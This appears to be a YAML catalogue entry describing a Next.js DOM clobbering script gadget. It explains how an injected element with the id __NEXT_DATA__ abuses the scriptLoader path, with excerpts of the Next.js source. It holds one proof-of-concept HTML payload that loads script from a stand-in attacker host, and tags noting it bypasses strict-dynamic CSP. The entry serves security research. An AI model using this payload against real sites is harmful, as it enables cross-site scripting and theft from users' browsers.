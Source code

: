 ```yaml
---
description: Used by some of the world's largest companies, Next.js enables you to create full-stack web applications by extending the latest React features, and integrating powerful Rust-based JavaScript tooling for the fastest builds.
github: vercel/next.js/
gadgets:
  Latest:
    authors:
      - twitter:kevin_mizu
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - id-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: In case of SSR, [next.js](https://github.com/vercel/next.js/) uses the `__NEXT_DATA__` id to store the initial props of the page. By hijacking it, it is possible to inject scripts through the `scriptLoader` array.
        code: |
          <a id="__NEXT_DATA__">{ "scriptLoader": [{ "src": "https://attacker.js/xss.js" }]}</a>
        preview: false
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/vercel/next.js/blob/afddb6ebdade616cdd7780273be4cd28d4509890/packages/next/src/client/index.tsx#L269">https://github.com/vercel/next.js/blob/afddb6ebdade616cdd7780273be4cd28d4509890/packages/next/src/client/index.tsx#L269</a>

      ```javascript
      if (initialData.scriptLoader) {
        const { initScriptLoader } = require('./script')
        initScriptLoader(initialData.scriptLoader)
      }
      ```

      Source: <a target="_blank" href="https://github.com/vercel/next.js/blob/afddb6ebdade616cdd7780273be4cd28d4509890/packages/next/src/client/script.tsx#LL165C1-L168C2">https://github.com/vercel/next.js/blob/afddb6ebdade616cdd7780273be4cd28d4509890/packages/next/src/client/script.tsx#LL165C1-L168C2</a>

      ```javascript
      export function initScriptLoader(scriptLoaderItems: ScriptProps[]) {
          scriptLoaderItems.forEach(handleClientScriptLoad)
          addBeforeInteractiveToCache()
      }
      ```

      Source: <a target="_blank" href="https://github.com/vercel/next.js/blob/afddb6ebdade616cdd7780273be4cd28d4509890/packages/next/src/client/script.tsx#LL133C1-L142C2">https://github.com/vercel/next.js/blob/afddb6ebdade616cdd7780273be4cd28d4509890/packages/next/src/client/script.tsx#LL133C1-L142C2</a>

      ```javascript
      export function handleClientScriptLoad(props: ScriptProps) {
          const { strategy = 'afterInteractive' } = props
          if (strategy === 'lazyOnload') {
              window.addEventListener('load', () => {
                  requestIdleCallback(() => loadScript(props))
              })
          } else {
              loadScript(props)
          }
      }
      ```

      Source: <a target="_blank" href="https://github.com/vercel/next.js/blob/afddb6ebdade616cdd7780273be4cd28d4509890/packages/next/src/client/script.tsx#LL36C1-L131C2">https://github.com/vercel/next.js/blob/afddb6ebdade616cdd7780273be4cd28d4509890/packages/next/src/client/script.tsx#LL36C1-L131C2</a>

      ```javascript
      const loadScript = (props: ScriptProps): void => {
          // Retracted

          const cacheKey = id || src

          // Retracted

          if (src) {
              el.src = src
              ScriptCache.set(src, loadPromise)
          }

          // Retracted

          document.body.appendChild(el)
      }
      ```
    links:
      - https://mizu.re/post/youwatch#-nextjs-dom-clobbering-abuse
---
```

